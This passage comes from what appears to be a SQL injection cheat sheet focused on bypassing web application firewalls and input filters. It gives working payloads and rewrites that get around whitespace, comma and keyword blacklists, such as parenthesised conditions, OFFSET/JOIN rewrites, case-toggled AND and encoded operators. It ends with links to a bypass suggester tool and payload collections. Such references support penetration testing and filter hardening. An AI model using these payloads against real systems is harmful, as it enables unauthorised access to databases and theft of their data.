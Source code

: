 No Whitespace - bypass using parenthesis

```text
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN

```text
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

Blacklist using keywords - bypass using uppercase/lowercase

```text
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```text
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```

### WAF bypass suggester tools

{% embed url="https://github.com/m4ll0k/Atlas" caption="" %}

## Other GUIDES

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

